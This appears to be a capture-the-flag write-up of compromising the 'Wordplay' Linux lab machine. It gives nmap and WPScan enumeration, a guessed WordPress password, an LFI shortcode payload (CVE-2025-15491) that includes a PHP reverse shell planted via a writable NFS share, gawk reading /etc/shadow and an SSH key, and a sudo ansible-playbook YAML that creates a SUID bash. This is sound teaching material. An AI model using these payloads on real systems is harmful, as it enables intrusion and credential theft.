# Summary

_Wordplay_ is a Medium rated Linux machine on the _HackSmarter_ platform. Its compromise is mainly due to the factors below:

- **NFS share world-readable and writable** - allowed me to write files to the target's filesystem, which were later instrumental in obtaining foothold on the target host. To remediate, restrict NFS shares to authorized users and host's and apply appropriate read/write permissions according to functional requirements.
- **Weak _WordPress_ Password** - `john` had an easily guessable password that allowed me to gain access to its _WordPress_ dashboard. Enforce strong, complex passwords for all authentication processes on the target host and its services.
- **_WordPress_ plugin vulnerability (CVE-2025-15491)** - the _Post Sliders_ version installed on the target hosts' _WordPress_ instance is old and not supported, it is vulnerable to the mentioned CVE and needs to be removed. As of October 2026 there is no fix to the vulnerability.
- **Potentially excessive capabilities** - `gawk` capabilities allow read access to the entire filesystem - which can be abused by any user. To remediate, review the capability and remove it if deemed unnecessary.
- **Potentially misconfigured `sudo`** - when abused, `sudo` required no password when executed as `martin` and allowed the input of every _.yaml_ file. To remediate, ensure that a password is required to execute the command in an elevated manner and that a narrower context is applied for _.yaml_ files to be executed. 

---
# Full TCP Range Scan

Scanning the target host with the following command:

```bash
sudo nmap -v -p- --min-rate 3000 -T4 -sS -n -Pn -oN Scans/Wordplay_TCP_discovery 10.0.28.30
ports=$(grep open Scans/Wordplay_TCP_discovery | cut -d'/' -f1 | paste -sd,)
sudo nmap -p$ports -v -sC -sV -sT -T4 -oN Scans/Wordplay_TCP_service 10.0.28.30

Nmap scan report for 10.0.28.30
Host is up (0.16s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 10.2p1 Ubuntu 2ubuntu3.2 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     Apache httpd 2.4.66 ((Ubuntu))
|_http-generator: WordPress 6.9.4
|_http-server-header: Apache/2.4.66 (Ubuntu)
|_http-title: The Wired
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
[...]
|_  100227  3           2049/tcp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
35779/tcp open  mountd   1-3 (RPC #100005)
35781/tcp open  nlockmgr 1-4 (RPC #100021)
39805/tcp open  mountd   1-3 (RPC #100005)
46365/tcp open  status   1 (RPC #100024)
51379/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Notes on Scan Results

- _OpenSSH 10.2p1_ accessible over default port 22.
- _Apache/2.4.66_ accessible over default port 80, script results show it is running _WordPress 6.9.4_.
- NFS accessible over default ports 111, 2049 and ≥ 35779.

---
# NFS (2049/TCP)

Reviewing the mounted content on NFS, mounting the share to my local NFS directory:



The share contains documents that are of no importance:



Worth noting that I am able to write to the NFS share:



At this point, I can't abuse the share's contents or the fact that it is writable. 

---
# _Apache/2.4.66_ HTTP Web Application (80/TCP)

## Tech Stack

### _cURL_ & _whatweb_

The following commands were used to retrieve HTTP headers from the target web server and fingerprint technologies, frameworks and server details:

```bash
curl -I 'http://10.0.28.30'

whatweb 'http://10.0.28.30'
```



As seen in the above output, this _WordPress_ instance is configured to use _lklinux1.local_ as its hostname. I will add it to my local hosts file:



## Website Browsing

Browsing to `http://lklinux1.local/` leads to the following web page:



It seems like a _WordPress_ sample page. The links within it don't actually redirect. The website is static.
## Content Discovery

The following command was used to enumerate hidden directories and files on the target web server:

```bash
feroxbuster -u 'http://lklinux1.local/' -w /usr/share/wordlists/dirb/common.txt
```



# Foothold

## _WordPress_ Enumeration

As seen above, _feroxbuster_ detects the _WordPress_ login page immediately. To enumerate _WordPress_ I will use _WPScan_, executing the following:

```bash
# Updating the tool
wpscan --update

# Enumerating accurate version information
wpscan --url http://lklinux1.local/ version

# Enumerating users
wpscan --url http://lklinux1.local/ --enumerate u

# Enumerating vulnerable plugins
wpscan --url 'http://lklinux1.local' --enumerate vp --plugins-detection aggressive

# Enumerating all plugins
wpscan --url 'http://lklinux1.local' --enumerate ap --plugins-detection aggressive
```

The version is indeed 6.9.4:



There are two identified users - `admin` and `john`:



Browsing to `http://lklinux1.local/wp-login.php`, I attempt to authenticate using weak credentials. Eventually, `john`:`john` authenticates the user successfully and grants me access: 



Since the access is basic and not administrative, I resume with enumeration, looking for vulnerable plugins and then all plugins:



## Exploiting CVE-2025-15491

The plugin _post-slides_ in its installed version is vulnerable to [CVE-2025-15491](https://nvd.nist.gov/vuln/detail/cve-2025-15491), in which it "_does not validate some shortcode attributes before using them to generate paths passed to include function/s, allowing any authenticated users such as with contributor or higher roles to perform LFI attacks_"

Reviewing the vulnerability on _[WPScan](https://wpscan.com/vulnerability/eb0424cc-e60c-44a5-aa24-cd1fe042b27a/)_, the PoC is simple:

```
Add a post with the shortcode `[post-slides skin="../../../../wp-config"]` to see the inclusion of `wp-config.php
```

It does not load the config page as intended, but it might serve another purpose. I can write to the NFS share, so theoretically I will be able to access a resource through the LFI CVE, a PHP shell for example. Within the share, I place _shell.php_, a file containing a *PHP PentestMonkey* reverse shell. Then, in a new post, I paste the following after starting a _netcat_ listener:

```bash
[post-slides skin="../../../../../../../../var/nfs/documents/shell"]
```

Once I hit publish, a connection is received on the listener and I can confirm command execution as `www-data`:



# Privilege Escalation

## Compromising `martin`

`martin` and `root` are the sole users with terminal:



When enumerating the target host, I review its capabilities:

```bash
getcap -r / 2>/dev/null
```



As seen above, among the expected output when enumerating capabilities there is also `gawk` - which has the `cap_dac_read_search=ep` capability, allowing it to read **any** file. _Gawk_ is the GNU Project's implementation of the AWK programming language.

While [GTFObins](https://gtfobins.org/gtfobins/gawk/#file-read) does not list the capabilities - the entry offers the file read function. I attempt to use `gawk` in the linked context - it should print every line of _/etc/shadow_:



As seen in the output above, using `gawk` in that manner grants access to sensitive files that were otherwise not readable to me. An easy target to think about is `martin`'s private SSH key:



Having retrieved the private key, I copy it to my local host, save it and change its permissions so that it can be used, then attempt to authenticate as `martin`:



The authentication is successful and I manage to establish an SSH session as `martin`. 

## Abusing `sudo ansible-playbook`

`martin` can run _ansible-playbook_ in an elevated manner with `sudo`:



An easy way to exploit this context of _ansible-playbook_ is by creating a _.yaml_ file that will serve as a configuration blueprint, then inserting it as an argument. The _.yaml_ file in this example originates from [this repository](https://github.com/iamnasef/ansible-privilege-escalation). It adds SUID permissions to _/bin/bash_, so it can be used elevated after execution:

```yaml
---                                                                                                               
- name: shell                                                                                                  
  hosts: localhost
  become: yes

  tasks:
  - name: hack
    shell: "cp /bin/bash . && chmod +sx bash"
```

After saving the file, I execute _ansible-playbook_ with the _.yaml_ file as argument:



Once completed, I run `./bash -p` to launch the SUID bash, then confirm elevated command execution with `id` - the target host is now compromised.




